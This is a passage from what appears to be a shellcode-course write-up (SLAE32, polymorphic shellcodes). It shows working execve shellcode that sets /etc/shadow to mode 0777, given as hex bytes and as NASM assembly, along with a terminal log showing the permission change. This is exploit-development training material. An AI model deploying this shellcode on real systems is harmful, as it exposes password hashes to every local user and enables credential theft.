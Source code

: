 In order to verify that the payload is working we must execute `shellcode`. We also check the permissions of `/etc/shadow` before and after the execution.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/1_chmod$ ls -la /etc/shadow
-rw-r----- 1 root shadow 1298 Απρ  02 20:04 /etc/shadow
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/1_chmod$ sudo ./shellcode
Shellcode Length:  43
geobour98@slae32-dev:~/SLAE/custom/SLAE32/6_Polymorphic_shellcodes/1_chmod$ ls -la /etc/shadow
-rwxrwxrwx 1 root shadow 1298 Απρ  02 20:04 /etc/shadow
```

The shellcode is working and its size is `43` bytes!

## execve-chmod {#execve-chmod}

The original `execve-chmod 0777 /etc/shadow` shellcode is the following:

```shell
\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe6\x50\x68\x30\x37\x37\x37\x89\xe5\x50\x68\x68\x6d\x6f\x64\x68\x69\x6e\x2f\x63\x66\x68\x2f\x62\x89\xe3\x50\x56\x55\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
``` 

The initial `Assembly` version (`execve-chmod-original.nasm`) would look like this:

```nasm
global _start

section .text
_start:

	xor eax, eax
	push eax

	push 0x776f6461
	push 0x68732f2f
	push 0x6374652f

	mov esi, esp

	push eax

	push 0x37373730

	mov ebp, esp

	push eax

	push  0x646f6d68
	push  0x632f6e69
	push  0x622f2f2f

	mov ebx, esp

	push eax
	push esi
	push ebp
	push ebx

	mov ecx, esp
	
	mov edx, eax

	mov al, 0xb

	int 0x80
```